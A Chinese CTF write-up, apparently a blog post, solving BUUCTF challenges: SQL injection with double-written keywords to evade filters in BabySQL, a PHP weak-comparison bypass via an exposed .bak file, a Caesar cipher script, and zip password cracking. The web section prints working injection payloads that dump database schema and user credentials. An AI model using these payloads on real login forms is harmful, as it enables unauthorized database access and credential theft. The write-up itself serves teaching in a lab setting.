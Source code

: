 # BUUCTF-sql双写绕过

## WEB

### [极客大挑战 2019]BabySQL

打开环境 查看什么类型

输入

```cobol
输入1'
username='1''&password='1''
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c429319ec81089e0813ef41514c439f6.png" alt="" style="max-height:356px; box-sizing:content-box;" />


字符型

我们开始尝试万能密码

```vbnet
1' or 1=1-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7dd04fb2b6536e9b733df5fe446d665e.png" alt="" style="max-height:345px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/17efeca3cc39bdf440e90f482faf32db.png" alt="" style="max-height:142px; box-sizing:content-box;" />


发现返回的东西和我们输入不一样  or没了

```undefined
过滤了or 
```

这个是关键 我们使用双写绕过

```vbnet
1' oorr 1=1-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3f1952360d1ef06fd7d75f10c8098c8e.png" alt="" style="max-height:339px; box-sizing:content-box;" />


得到了账号密码

我们开始sql注入

```cobol
1. 字段数
 
username=admin&password=''1' order by 4-- +''
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/98309db83e97fe952a63b9cf2e6d9e83.png" alt="" style="max-height:241px; box-sizing:content-box;" />


发现or 过滤了 我们看看

```csharp
1' oorrder by 4-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/06159ab8b868cfb1ec2a8a1c12cae7ec.png" alt="" style="max-height:247px; box-sizing:content-box;" />


还是报错 我们接着看看是不是过滤了 by 因为如果过滤了der 他会返回or

```vbnet
1' oorrder bbyy 4-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a21855351f4e6060a55b26d61616b563.png" alt="" style="max-height:251px; box-sizing:content-box;" />


成功了 三个字段

我们开始爆破数据库

```cobol
0' union select 1,2,database()-- +    报错'1,2,database()-- '

0' ununion select 1,2,database()-- +   报错'un 1,2,database()-- ''

0' ununionion seselectlect 1,2,database()-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/53243bd15de44284f478b3e48cfc53bd.png" alt="" style="max-height:341px; box-sizing:content-box;" />


得到数据库名 geek

开始爆表

```csharp
0' ununionion seselectlect 1,2,group_concat(table_name)frfromom infoorrmation_schema.tables whwhereere table_schema='geek'-- +
 
经过尝试 union select  or from where 都过滤了 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f564fb8797ff0673e810344ba5e8cd7a.png" alt="" style="max-height:354px; box-sizing:content-box;" />


开始爆数据

```cobol
0' ununionion seselectlect 1,2,group_concat(column_name)frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'-- +


0' ununionion seselectlect 1,2,group_concat(column_name)frfromom infoorrmation_schema.columns whwhereere table_name='geekuser'-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/918856b363b9a9071946f0d17a53ed22.png" alt="" style="max-height:270px; box-sizing:content-box;" />


都是返回这些名

```vbnet
0' ununionion seselectlect 1,2,group_concat(id,username,passwoorrd)frfromom geek.b4bsql-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/00fe47954612ba9043a6e2341b1a8646.png" alt="" style="max-height:231px; box-sizing:content-box;" />


得到flag

### [ACTF2020 新生赛]BackupFile

打开环境



<img src="https://i-blog.csdnimg.cn/blog_migrate/6017c3fa73fb9265f1adfa17b39fc7fb.png" alt="" style="max-height:196px; box-sizing:content-box;" />


让我们找源文件

我们想到

```delphi
index.php.bak
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/0559d953505af37947cba22ca835f169.png" alt="" style="max-height:144px; box-sizing:content-box;" />


下载成功

我们得到备份文件

```php
<?php
include_once "flag.php";
 
if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

这里就得到绕过两个 一个是is_numeric() 另一个是==

```cobol
！is_numeric()：
如果为数字或者数字字符串 True
如果不是 返回 false
!0=1
所以我们需要这个是数字或者数字字符串
 
 
==
'123a'==123 True
```

这样就很简单了

```cobol
key=123
 
 
 
123为数字 所以
!is_numeric() 绕过
 
 
因为==弱比较
所以
 
123=123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3 true
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/04a00040d2b75323ba651c46a2d60a15.png" alt="" style="max-height:238px; box-sizing:content-box;" />


得到flag

## Crypto

### Alice与Bob



<img src="https://i-blog.csdnimg.cn/blog_migrate/cbba5a68d25d31a24d5713395d09044d.png" alt="" style="max-height:175px; box-sizing:content-box;" />


 [http://www.jsons.cn/quality/](http://www.jsons.cn/quality/) 



<img src="https://i-blog.csdnimg.cn/blog_migrate/a1afecca8b76650071b04be1571972ea.png" alt="" style="max-height:320px; box-sizing:content-box;" />


合并

```cobol
101999966233
```

 [CTF在线工具-哈希计算|MD5、SHA1、SHA256、SHA384、SHA512、RIPEMD、RIPEMD160](http://www.hiencode.com/hash.html) 

进行MD5计算



<img src="https://i-blog.csdnimg.cn/blog_migrate/c941ede7938ea52a1015f508b08f84d0.png" alt="" style="max-height:511px; box-sizing:content-box;" />


### 大帝的密码武器

下载得到题目和密文 意思就是让我们解密题目 然后取得偏移量 然后在加密密文

```cobol
str1 = 'FRPHEVGL'
str2 = str1.lower()
num = 1
for i in range(26):
    print("{:<2d}".format(num),end = ' ')
    for j in str2:
        if(ord(j)+num > ord('z')):
            print(chr(ord(j)+num-26),end='')
        else:
            print(chr(ord(j)+num),end='')
    num += 1
    print('')
```

使用代码取得26次的解密



<img src="https://i-blog.csdnimg.cn/blog_migrate/da8c3f88d26423d04064ec9b9ff426cc.png" alt="" style="max-height:126px; box-sizing:content-box;" />


偏移量为13 的时候得到单词

我们把密文加密 偏移量为13

提交flag

## Misc

### ningen

改后缀 为zip

暴力破解

### 小明的保险箱

同理

### 爱因斯坦

下载文件 查看属性



<img src="https://i-blog.csdnimg.cn/blog_migrate/22077d5741b36f269837fb98e0a6c60f.png" alt="" style="max-height:327px; box-sizing:content-box;" />


提到password 说明加密

我们改后缀



<img src="https://i-blog.csdnimg.cn/blog_migrate/f4d064ea8f6220485eb6a84dceb9e469.png" alt="" style="max-height:734px; box-sizing:content-box;" />


没有提示 只有刚刚的那个not password 试一试



<img src="https://i-blog.csdnimg.cn/blog_migrate/b28cdfd7cb428dd00db2d70cf61c0036.png" alt="" style="max-height:781px; box-sizing:content-box;" />


得到flag